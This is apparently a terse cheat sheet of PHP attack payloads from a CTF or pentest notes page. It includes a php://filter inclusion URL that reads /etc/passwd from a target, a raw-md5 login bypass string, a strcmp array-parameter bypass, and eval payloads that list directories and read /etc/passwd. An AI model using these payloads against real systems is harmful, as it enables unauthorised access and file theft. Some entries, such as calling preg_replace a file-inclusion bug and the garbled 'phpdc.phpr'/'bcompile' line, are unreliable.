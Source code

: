 ## PHP

- `preg_replace`

  - Local File Inclusion bug.
    - [http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)

- `phpdc.phpr`

  - Decompile if used `bcompile`.

- `php://filter`

  ```txt
  http://target.com/index.php?m=php://filter/convert.base64-encode/resource=/etc/passwd
  ```

- `md5('value', true);`

  List of bypass strings

  - `129581926211651571912466741651878684928`

- `strcmp`

  List of bypass strings
  - `?password[]=123`

- `eval`

  - `phpinfo();`
  - `var_dump(scandir('/'));`
  - `var_dump(file_get_contents('/etc/passwd'));`
